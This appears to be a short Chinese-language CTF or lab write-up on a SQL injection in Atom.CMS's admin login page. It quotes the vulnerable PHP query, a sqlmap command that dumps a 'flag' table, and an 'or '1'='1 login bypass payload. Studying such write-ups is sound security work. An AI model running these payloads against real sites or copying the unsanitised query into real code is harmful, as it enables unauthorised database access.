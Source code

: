 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-24223)
## 2. 漏洞分析
[Sql Injection in /admin/login.php · Issue #255 · thedigicraft/Atom.CMS · GitHub](https://github.com/thedigicraft/Atom.CMS/issues/255)
注入点： /admin/login.php:

```php
<?php 
..... 
if($_POST)
  { 
  	 $q = "SELECT * FROM users WHERE email = '$_POST[email]' AND password = SHA1('$_POST[password]')"; 
  	 $r = mysqli_query($dbc, $q); 
.....
?>
```

## 3. 漏洞复现
登录页抓包 post 注入，示例如下

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309271631579.png)

```python
python sqlmap.py -r post.txt -p email -D atomcms -T flag -C flag --dump --batch
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309271632290.png)

注，登录后的 `……admin/index.php?page=users&id=1`  id 参数也存在注入漏洞【`email=alan@alan.com'or '1'='1&password=123`】。